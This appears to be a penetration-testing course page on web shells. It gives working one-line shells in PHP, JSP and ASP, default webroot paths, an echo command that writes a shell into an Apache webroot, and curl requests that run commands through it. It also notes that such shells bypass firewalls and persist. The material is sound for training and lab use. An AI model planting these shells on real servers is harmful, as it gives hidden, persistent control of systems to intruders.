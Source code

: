 # Web Shell

## Writing a Web Shell
First of all, we need to write our web shell that would take our command through a GET request, execute it, and print its output back. A web shell script is typically a one-liner that is very short and can be memorized easily. The following are some common short web shell scripts for common web languages:

### Code: `php`

    <?php system($_REQUEST["cmd"]); ?>

### Code: `jsp`

    <% Runtime.getRuntime().exec(request.getParameter("cmd")); %>

### Code: `asp`

    <% eval request("cmd") %>

## Uploading a Web Shell
Once we have our web shell, we need to place our web shell script into the remote host's web directory (webroot) to execute the script through the web browser. This can be through a vulnerability in an upload feature, which would allow us to write one of our shells to a file, i.e. `shell.php` and upload it, and then access our uploaded file to execute commands.

However, if we only have remote command execution through an exploit, we can write our shell directly to the webroot to access it over the web. So, the first step is to identify where the webroot is. The following are the default webroots for common web servers:

| **Webserver**   | **Default Webroot**   |
| --------------|-------------------|
| `Apache` | /var/www/html/ |
| `Nginx` | /usr/local/nginx/html/ |
| `IIS` | c:\inetpub\wwwroot\ |
| `XAMPP` | C:\xampp\htdocs\ |

We can check these directories to see which webroot is in use and then use echo to write out our web shell. For example, if we are attacking a Linux host running Apache, we can write a PHP shell with the following command:

### Code: bash
    
    echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php

## Accessing Web Shell

Once we write our web shell, we can either access it through a browser or by using `cURL`. We can visit the `shell.php` page on the compromised website, and use ?cmd=id to execute the id command:

   
http://SERVER_IP:PORT/shell.php?cmd=id
![image](https://user-images.githubusercontent.com/87195021/162104832-eeac112b-d5c3-4789-9fc6-d8601175e93a.png)

### Another option is to use cURL:

    MBWest@htb[/htb]$ curl http://SERVER_IP:PORT/shell.php?cmd=id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
As we can see, we can keep changing the command to get its output. A great benefit of a web shell is that it would bypass any firewall restriction in place, as it will not open a new connection on a port but run on the web port on 80 or 443, or whatever port the web application is using. Another great benefit is that if the compromised host is rebooted, the web shell would still be in place, and we can access it and get command execution without exploiting the remote host again.

On the other hand, a web shell is not as interactive as reverse and bind shells are since we have to keep requesting a different URL to execute our commands. Still, in extreme cases, it is possible to code a Python script to automate this process and give us a semi-interactive web shell right within our terminal.